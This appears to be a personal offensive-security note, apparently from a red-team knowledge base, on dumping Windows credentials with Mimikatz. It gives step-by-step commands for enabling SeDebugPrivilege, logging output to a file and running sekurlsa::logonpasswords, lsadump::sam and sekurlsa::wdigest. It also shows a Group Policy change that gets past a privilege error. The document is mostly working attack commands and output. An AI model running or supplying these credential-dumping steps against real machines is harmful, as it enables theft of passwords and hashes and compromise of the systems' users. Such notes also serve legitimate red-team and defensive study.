 # [[03 - Offensive Infrastructure/E - Setup Machine/0x03 - Bring Your Own Land/Windows/OS Credential Dumping/Mimikatz|Mimikatz]]

## 01 - LogonPasswords

> [!IMPORTANT] Conditions
> Make sure the `SeDebugPrivilege` is enabled.

```
C:\> whoami.exe /priv
Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Enabled

mimikatz # privilege::debug
Privilege '20' OK
```

Audit by logging the file.

```
mimikatz # log credentials.txt

mimikatz # sekurlsa::logonpasswords
```

> [!INFO] Error Message
> If you receive this error. Go to the **Group Policy Management Editor** > Windows Settings > Security Settings > Local Policies > User Rights Assignment > Debug programs > then uncheck the box **"Define these policy settings:"**

```
mimikatz # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
```

## 02 - SAM

```
mimikatz # lsadump::sam
```

## 03 - Enable Wdigest

Otherwise another way around it is to dump with **WDigest**.

```
mimikatz # sekurlsa::wdigest
```
